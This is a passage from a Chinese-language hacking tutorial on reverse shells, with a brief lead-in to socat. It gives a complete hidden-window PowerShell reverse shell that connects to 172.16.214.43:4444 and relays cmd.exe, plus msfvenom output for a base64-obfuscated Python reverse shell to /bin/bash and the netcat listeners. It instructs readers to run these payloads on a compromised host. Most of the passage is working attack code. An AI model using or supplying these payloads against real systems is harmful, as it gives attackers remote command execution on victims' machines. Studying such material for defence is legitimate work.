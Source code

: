     powershell -w hidden -nop -c $a='172.16.214.43';$b=4444;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}  
      
    > nc -lvp 4444

将生成的 payload 复制到失陷主机上运行，即可收到反弹回的 shell

![](https://gitee.com/fuli009/images/raw/master/public/20211027204333.png)

再比如使用 `cmd/unix/reverse_python` 这个payload

    
    
    # 控制端  
    > msfvenom -p cmd/unix/reverse_python lhost=172.16.214.43 lport=4444  
    [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload  
    [-] No arch selected, selecting arch: cmd from the payload  
    No encoder specified, outputting raw payload  
    Payload size: 505 bytes  
    python -c "exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCAgICwgc3VicHJvY2VzcyAgICwgb3M7ICAgICAgaG9zdD0iMTcyLjE2LjIxNC40MyI7ICAgICAgcG9ydD00NDQ0OyAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgICwgc29ja2V0LlNPQ0tfU1RSRUFNKTsgICAgICBzLmNvbm5lY3QoKGhvc3QgICAsIHBvcnQpKTsgICAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAsIDApOyAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICwgMSk7ICAgICAgb3MuZHVwMihzLmZpbGVubygpICAgLCAyKTsgICAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik=')[0]))"  
      
    > nc -lvp 4444

同样将生成的 payload 复制到失陷主机上运行，即可收到反弹回来的 shell，当然前提是目标主机安装了 python

## 3、socat 使用

socat 下载地址：http://www.dest-unreach.org/socat/，或者直接使用 `apt-get install socat`
安装，Mac 可使用 `brew install socat` 安装。

socat 全称 socket cat，可以视为 nc 的加强版，不过平时感觉 nc 也够用了，但是 nc 现在貌似会被杀软杀掉，而且貌似 nc
很久没更新了，反正多掌握点知识没坏处。

### 文件操作
